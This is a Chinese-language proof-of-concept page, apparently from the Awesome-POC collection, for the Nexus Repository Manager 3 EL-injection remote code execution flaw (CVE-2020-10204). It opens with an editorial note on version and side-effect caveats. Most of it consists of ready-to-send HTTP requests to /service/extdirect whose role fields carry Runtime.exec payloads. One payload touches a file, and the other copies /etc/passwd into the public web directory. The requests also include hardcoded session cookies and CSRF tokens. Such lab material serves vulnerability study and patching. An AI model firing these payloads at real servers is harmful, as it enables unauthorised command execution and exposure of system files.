



## 核对与使用边界


本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;3.21.1与实验3.21.1/简介&lt;=3.21.1矛盾；需要相应角色/用户管理权限

代码与实验材料：coreui_User.update和Role.create两入口完整，getMethods()\[6\]顺序不保证；第二载荷把passwd复制到public有泄漏副作用

来源证据范围：官方Sonatype公告和固定研究commit，较好

- **适用与权限边界（1）**：版本边界错误；依据：影响表排除实验3.21.1，其他同库文章修复3.21.2。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **操作与副作用边界（2）**：请求改变身份/角色或公开文件；依据：更新admin roles、创建角色、cp/etc/passwd到public，不是无副作用验证。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **来源与引用处置（3）**：权限和示例材料不规范；依据：称更新角色但首报文更新用户；保留无关Jenkins/统计Cookie、硬编码session和CSRF。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Nexus Repository Manager 3 extdirect 远程命令执行漏洞 CVE-2020-10204

## 漏洞描述

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.21.1及之前版本中，存在一处任意EL表达式注入漏洞，这个漏洞是CVE-2018-16621的绕过。

参考链接：

- https://support.sonatype.com/hc/en-us/articles/360044356194-CVE-2020-10204-Nexus-Repository-Manager-3-Remote-Code-Execution-2020-03-31
- https://github.com/threedr3am/learnjavabug/blob/93d57c4283/nexus/CVE-2020-10204/README.md

## 漏洞影响

```
Nexus < 3.21.1
```

## 环境搭建

Vulhub执行如下命令启动Nexus Repository Manager 3.21.1：

```
docker-compose up -d
```

等待一段时间环境才能成功启动，访问`http://your-ip:8081`即可看到Web页面。

该漏洞需要访问更新角色或创建角色接口，所以我们需要使用账号密码`admin:admin`登录后台。

## 漏洞复现

登录后台后，复制当前Cookie和CSRF Token，发送如下数据包，即可执行EL表达式：

```
POST /service/extdirect HTTP/1.1
Host: your-vps-ip:8081
Content-Length: 223
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.9514072635504696
Content-Type: application/json
Accept: */*
Origin: http://your-vps-ip:8081
Referer: http://your-vps-ip:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=0.9514072635504696; NXSESSIONID=9c8acd44-38cb-4a2c-a045-96161193dbc2

{"action":"coreui_User","method":"update","data":[{"userId":"admin","version":"2","firstName":"admin","lastName":"User","email":"admin@example.org","status":"active","roles":["nxadmin$\\B{233*233}"]}],"type":"rpc","tid":11}
```



参考https://github.com/jas502n/CVE-2020-10199，使用表达式`$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/awesome_poc')}`即可成功执行任意命令：



命令`touch /tmp/awesome_poc`执行成功：



另一处漏洞点：

```
POST /service/extdirect HTTP/1.1
Host: 
accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.856555763510765
Content-Type: application/json
Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.856555763510765; NXSESSIONID=e9d6620d-6843-49a6-a887-cd7cef74d413
Content-Length: 304

{"action":"coreui_Role","method":"create","data":[{"version":"","source":"default","id":"1111","name":"2222","description":"3333","privileges":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('cp /etc/passwd ./public/vuln.html')}"],"roles":[]}],"type":"rpc","tid":89}
```


---

> 来源：Threekiii/Awesome-POC
